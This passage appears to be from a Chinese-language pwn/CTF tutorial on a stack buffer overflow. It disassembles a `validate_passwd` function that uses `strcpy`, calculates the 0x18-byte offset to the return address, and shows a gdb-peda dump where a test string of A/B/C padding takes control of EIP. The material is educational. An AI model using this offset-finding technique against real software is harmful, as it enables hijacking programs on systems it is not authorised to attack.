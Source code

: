 ``` assembly
gdb-peda$ disassemble validate_passwd
Dump of assembler code for function validate_passwd:
   0x00000600 <+0>:	push   ebp
   0x00000601 <+1>:	mov    ebp,esp
   0x00000603 <+3>:	push   ebx
   0x00000604 <+4>:	sub    esp,0x14
   0x00000607 <+7>:	call   0x4d0 <__x86.get_pc_thunk.bx>
   0x0000060c <+12>:	add    ebx,0x19f4
   0x00000612 <+18>:	sub    esp,0xc
   0x00000615 <+21>:	push   DWORD PTR [ebp+0x8]
   0x00000618 <+24>:	call   0x460 <strlen@plt>
   0x0000061d <+29>:	add    esp,0x10
   0x00000620 <+32>:	mov    BYTE PTR [ebp-0x9],al
   0x00000623 <+35>:	cmp    BYTE PTR [ebp-0x9],0x3
   0x00000627 <+39>:	jbe    0x655 <validate_passwd+85>
   0x00000629 <+41>:	cmp    BYTE PTR [ebp-0x9],0x8
   0x0000062d <+45>:	ja     0x655 <validate_passwd+85>
   0x0000062f <+47>:	sub    esp,0xc
   0x00000632 <+50>:	lea    eax,[ebx-0x18b0]
   0x00000638 <+56>:	push   eax
   0x00000639 <+57>:	call   0x450 <puts@plt>
   0x0000063e <+62>:	add    esp,0x10
   0x00000641 <+65>:	sub    esp,0x8
   0x00000644 <+68>:	push   DWORD PTR [ebp+0x8]
   0x00000647 <+71>:	lea    eax,[ebp-0x14]
   0x0000064a <+74>:	push   eax
   0x0000064b <+75>:	call   0x440 <strcpy@plt>
   0x00000650 <+80>:	add    esp,0x10
   0x00000653 <+83>:	jmp    0x667 <validate_passwd+103>
   0x00000655 <+85>:	sub    esp,0xc
   0x00000658 <+88>:	lea    eax,[ebx-0x18aa]
   0x0000065e <+94>:	push   eax
   0x0000065f <+95>:	call   0x450 <puts@plt>
   0x00000664 <+100>:	add    esp,0x10
   0x00000667 <+103>:	nop
   0x00000668 <+104>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0000066b <+107>:	leave  
   0x0000066c <+108>:	ret    
End of assembler dump.
```

从上述代码可知`passwd_buf`的的内存位于`ebp-0x14`的位置，而函数的返回地址总是在`ebp+0x4`的位置，所以返回地址位于相对`passwd_buf`起始处`0x18`的位置。

可以测试一下：

``` assembly
EAX: 0xffffd184 ('A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...)
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd520 ("CCCCCC")
EDX: 0xffffd283 ("CCCCCC")
ESI: 0x2 
EDI: 0xf7fb3000 --> 0x1b2db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd1a0 ('C' <repeats 200 times>...)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd1a0 ('C' <repeats 200 times>...)
0004| 0xffffd1a4 ('C' <repeats 200 times>...)
0008| 0xffffd1a8 ('C' <repeats 200 times>...)
0012| 0xffffd1ac ('C' <repeats 200 times>...)
0016| 0xffffd1b0 ('C' <repeats 200 times>...)
```